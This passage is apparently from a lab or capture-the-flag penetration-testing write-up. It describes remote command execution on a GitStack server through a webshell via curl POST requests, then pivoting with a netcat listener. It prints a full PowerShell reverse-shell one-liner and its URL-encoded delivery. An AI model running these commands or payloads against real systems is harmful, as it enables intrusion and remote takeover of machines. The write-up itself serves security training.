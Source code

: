 It is also possible to exploit this vulnerability with the *curl* command, by sending a POST request and changing the parameter "a":

```
curl -X POST http://10.200.105.150/web/exploit-pat.php -d "a=whoami"

#Response
"nt authority\system
"
```

We wanted to verify if the server where *GitStack* is hosted is connected to the outside world by sending ICPM packets:

```
curl -X POST http://10.200.105.150/web/exploit-pat.php -d "a=ping -n 5 Attacking-Machine"
"
Pinging Attacking-Machine with 32 bytes of data:

Ping statistics for  Attacking-Machine:
    Packets: Sent = 5, Received = 0, Lost = 5 (100% loss),
```

Since it is not connected, we decide create a reverse shell from the *GitStack* server (**10.200.105.150**) to the server, where we already have a foothold (**10.200.105.200**) using netcat. Since we have root in this server, we openned a port in the firewall to stablish our connection and started a listener there:

```
# Open firewall port
firewall-cmd --zone=public --add-port 15987/tcp

# Start listenert
nc -tlvp 15987
```

We then sent the following powershell command as a parameter to our *curl* to the *GitStack* server to create a communication with the server .200:

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.105.200',15987);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

curl -X POST http://10.200.105.150/web/exploit-pat.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.105.200%27%2C15987%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```
